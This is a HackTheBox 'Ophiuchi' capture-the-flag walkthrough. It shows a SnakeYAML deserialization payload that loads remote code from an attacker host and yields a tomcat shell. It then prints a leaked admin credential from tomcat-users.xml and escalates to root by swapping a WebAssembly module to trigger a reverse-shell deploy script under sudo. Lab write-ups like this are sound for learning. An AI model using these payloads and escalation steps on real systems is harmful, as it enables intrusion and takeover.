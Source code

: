 # Ophiuchi

## Enumeration

nmap port is 8080 open 
containing a yaml parser
Firstly I used a python object which resulted into an error 
then I found it is running in java
Searched for java yaml exploit and found an awesome article
https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858

## Exploit

Running a simple code 

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```
gave us the ping 

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.77.30 - - [14/Feb/2021 10:15:44] code 404, message File not found
10.129.77.30 - - [14/Feb/2021 10:15:44] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

So the webapp is expecting a /META-INF/services/javax.script.ScriptEngineFactory file which would contain our final exploit

Cloned this repo
https://github.com/artsploit/yaml-payload

We need to run our server in this dir: `~/hackthebox/boxes/ophiuchi/yaml-payload/src$`

Server was throwing error status 500
```
java.lang.UnsupportedClassVersionError: artsploit/AwesomeScriptEngineFactory has been compiled by a more recent version of the Java Runtime (class file version 59.0), this version of the Java Runtime only recognizes class file versions up to 55.0
```

To fix this we need to compile our program with lower versions of java

to check the class file version
```
javap -v AwesomeScriptEngineFactory.class | grep "major"
```

to compile
```
javac --release 8 AwesomeScriptEngineFactory.java
```

Run the python server `~/hackthebox/boxes/ophiuchi/yaml-payload/src$`

and we got shell as tomcat

## User
linpeas could help
found password in /opt/tomcat/conf/tomcat-users.xml

```
admin:whythereisalimit
```

## root

sudo -l
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go


I downloaded the main.wasm file to analyze it
https://webassembly.github.io/wabt/demo/wasm2wat/index.html

```

(module
  (type $t0 (func (result i32)))
  (func $info (export "info") (type $t0) (result i32)
    (i32.const 0)) #need to make it 1
  (table $T0 1 1 funcref)
  (memory $memory (export "memory") 16)
  (global $g0 (mut i32) (i32.const 1048576))
  (global $__data_end (export "__data_end") i32 (i32.const 1048576))
  (global $__heap_base (export "__heap_base") i32 (i32.const 1048576)))
```

the index.go file on the victim machine is checking if (f != 0)
index.go
```golang

func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
               }
```

so I changed the main.wasm to 

```
(module
  (type $t0 (func (result i32)))
  (func $info (export "info") (type $t0) (result i32)
    (i32.const 1))
  (table $T0 1 1 funcref)
  (memory $memory (export "memory") 16)
  (global $g0 (mut i32) (i32.const 1048576))
  (global $__data_end (export "__data_end") i32 (i32.const 1048576))
  (global $__heap_base (export "__heap_base") i32 (i32.const 1048576)))
```
then use this website to change from text to wasm
https://webassembly.github.io/wabt/demo/wat2wasm/index.html

transfer the wasm file to any writeable directory and name it main.wasm
also create a deploy.sh file with a rev shell or anything you want then run

```
sudo -u root /usr/bin/go run /opt/wasm-functions/index.go
```